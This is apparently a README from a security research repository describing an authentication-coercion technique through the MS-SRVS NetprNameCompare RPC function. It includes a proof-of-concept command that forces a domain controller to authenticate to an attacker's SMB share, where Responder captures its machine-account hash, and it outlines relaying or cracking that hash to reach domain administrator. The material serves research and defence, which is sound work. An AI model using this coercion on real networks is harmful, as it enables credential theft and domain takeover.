 # MS-SRVS - Remote call to NetprNameCompare (opnum 35)

## Summary

 - **Protocol**: [[MS-SRVS]: Server Service Remote Protocol](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-srvs/accf23b0-0f57-441c-9185-43041f1b0ee9)

 - **Protocol UUID**: 4b324fc8-1670-01d3-1278-5a47bf6ee188

 - **Protocol version**: 3.0

 - **SMB Named pipe**: `\PIPE\srvsvc`

 - **Function name**: [`NetprNameCompare`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-srvs/073d1b6c-d608-4778-ac5f-6240eda83b34)

 - **Function operation number**: `35`

 - **Authenticated**: Yes


## Description

In order to call a remote procedure to trigger an authentication from the remote machine to an arbitrary target, we first need to authenticate to the remote machine, usually on SMB. Then we need to connect to the remote SMB pipe `\PIPE\srvsvc` and bind to the desired [`MS-SRVS`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-srvs/accf23b0-0f57-441c-9185-43041f1b0ee9) protocol (with uuid `4b324fc8-1670-01d3-1278-5a47bf6ee188` and version `3.0`) in order to perform remote procedure calls to functions in the [`MS-SRVS`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-srvs/accf23b0-0f57-441c-9185-43041f1b0ee9) protocol.

The IP 192.168.2.51 being my attacking machine where I listen with Responder, and 192.168.2.1 being the IP of my Windows Server. When starting this script, it will authenticate and connect to the remote pipe named `\PIPE\srvsvc` This pipe is connected to the protocol [[MS-SRVS]: Server Service Remote Protocol](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-srvs/accf23b0-0f57-441c-9185-43041f1b0ee9) and allows to call RPC functions of this protocol. We will then call the remote [`NetprNameCompare`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-srvs/073d1b6c-d608-4778-ac5f-6240eda83b34) function on the remote Windows Server (192.168.2.1) with the following parameters:

```cpp
NetprNameCompare('192.168.2.51\x00')
```

We can try this with this proof of concept code ([coerce_poc.py](./coerce_poc.py)):

```bash
./coerce_poc.py -d "LAB.local" -u "user1" -p "Podalirius123!" 192.168.2.51 192.168.2.1
```

![](./imgs/poc.png)

This will force the Windows Server (192.168.2.1) to authenticate to the SMB share `\\192.168.2.51\share` and therefore authenticate using its machine account (`DC01$`).  After this RPC call, we get an authentication from the domain controller with its machine account directly on Responder:

![](./imgs/hash.png)

After this step, we relay the authentication to other services in order to elevate our privileges, or try to downgrade it to NTLMv1 and crack it in order to get the NT hash of the domain controller's machine account. This kind of vulnerabilities allows to quickly get from user to domain administrator in unprotected domains!


## Function technical detail

```cpp
long NetprNameCompare(
   [in, string, unique] SRVSVC_HANDLE ServerName,
   [in, string] WCHAR* Name1,
   [in, string] WCHAR* Name2,
   [in] DWORD NameType,
   [in] DWORD Flags
 );
```

## References

 - Documentation of protocol [MS-SRVS]: Server Service Remote Protocol: https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-srvs/accf23b0-0f57-441c-9185-43041f1b0ee9

 - Documentation of function `NetprNameCompare`: https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-srvs/073d1b6c-d608-4778-ac5f-6240eda83b34